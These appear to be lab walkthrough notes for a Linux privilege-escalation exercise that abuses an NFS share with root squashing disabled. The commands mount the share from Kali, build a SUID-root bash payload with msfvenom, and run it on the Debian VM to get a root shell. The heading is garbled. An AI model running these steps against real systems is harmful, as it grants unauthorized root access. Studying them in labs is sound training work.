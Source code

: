 ## NFSEAMEESTA
​
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
​
Check the NFS share configuration on the Debian VM:
​

>[!Tip] Chebra
>```
>cat /etc/exports
>```

​
Note that the **/tmp** share has root squashing disabled.
​
On your Kali box, switch to your root user if you are not already running as root:
​

>[!Tip] Chebra
>```
>sudo su
>```

​
Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):
​

>[!Tip] Chebra
>```
>mkdir /tmp/nfs   mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
>```

​
Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):
​

>[!Tip] Chebra
>```
>msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
>```

​
Still using Kali's root user, make the file executable and set the SUID permission:
​

>[!Tip] Chebra
>```
>chmod +xs /tmp/nfs/shell.elf
>```

​
Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
​

>[!Tip] Chebra
>```
>/tmp/shell.elf
>```